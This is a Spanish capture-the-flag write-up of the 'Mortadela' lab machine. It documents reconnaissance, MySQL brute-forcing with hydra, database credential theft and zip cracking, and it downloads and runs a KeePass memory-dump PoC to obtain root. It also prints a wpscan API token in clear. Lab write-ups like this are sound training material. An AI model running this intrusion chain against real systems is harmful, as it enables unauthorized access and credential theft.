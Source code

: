 ```yaml
---
layout: post
title: "Mortadela"
date: 2024-06-06 18:10:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Mortadela </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/mortadela/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Mortadela/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Mortadela/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos en la maquina.

`sudo nmap -p- --open -n -Pn -T5 -sCV --min-rate=5000 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/nmap.png){:.margin}

**3\.** En la web tenemos la pagina default de Apache.

`http://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html`

![img](/notas/public/img/thehackerlabs/Mortadela/gobuster.png){:.margin}

**5\.** Tenemos un wordpress pero con algun problemita, intenta cargar internamente recursos de otra ip; hago resolucion de ip con una regla de iptable.

`sudo iptables -t nat -A OUTPUT -d 192.168.0.108 -j DNAT --to-destination 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80code.png){:.margin}
![img](/notas/public/img/thehackerlabs/Mortadela/80ok.png){:.margin}

**6\.** Escaneo fallos en la web wordpress, encuentro poco mas de un usuario.

`wpscan --url http://192.168.1.3/wordpress/ --api-token="ikrj65a1YQMVwLNmjpYaWNM0dJcHjgsBracjFNRr2OI" -e`

![img](/notas/public/img/thehackerlabs/Mortadela/wpscan.png){:.margin}

**7\.** Luego de intentar mucho opte por hacer fuerza bruta al mysql con el usuario root.

`hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/hydra.png){:.margin}

**8\.** Investigando en las bases de datos mysql.

_\- Inicio en mysql_

`mysql -u root -h 192.168.1.3 -pcassandra`

![img](/notas/public/img/thehackerlabs/Mortadela/mysql.png){:.margin}

_\- Encuentro la contraseña del usuario mortadela_

`show databases;`

`use confidencial;`

`show tables;`

`select * from usuarios;`

![img](/notas/public/img/thehackerlabs/Mortadela/mortadelapass.png){:.margin}

**9\.** Accedo por ssh como usuario mortadela.

`ssh mortadela@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/sshmortadela.png){:.margin}

**10\.** Encuentro un zip que contiene archivos de keepass, pero necesito una contraseña para descomprimir.

`ls /opt`

`unzip -l /opt/muyconfidencial.zip`

`unzip /opt/muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzip.png){:.margin}

**11\.** Me descargo el comprimido a mi maquina local.

`scp -r mortadela@192.168.1.3:/opt/muyconfidencial.zip .`

![img](/notas/public/img/thehackerlabs/Mortadela/scp.png){:.margin}

**12\.** Crackeando la contraseña del comprimido.

`zip2john muyconfidencial.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![img](/notas/public/img/thehackerlabs/Mortadela/john.png){:.margin}

_\- Descomprimiendo_

`unzip muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzipok.png){:.margin}

**13\.** Extraigo informacion del archivo volcado de keepass, me da posibles contraseñas y un caracter faltante al inicio.

`wget https://raw.githubusercontent.com/matro7sh/keepass-dump-masterkey/main/poc.py -q`

`python3 poc.py KeePass.DMP`

![img](/notas/public/img/thehackerlabs/Mortadela/dump.png){:.margin}

**14\.** Abrimos el database con keepass.

_\- Luego de varios intentos doy con la contraseña correcta_

![img](/notas/public/img/thehackerlabs/Mortadela/keepass.png){:.margin}

_\- Tengo las credenciales de root_

![img](/notas/public/img/thehackerlabs/Mortadela/keepassroot.png){:.margin}

**15\.** Obteniendo superusuario.

`ssh root@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>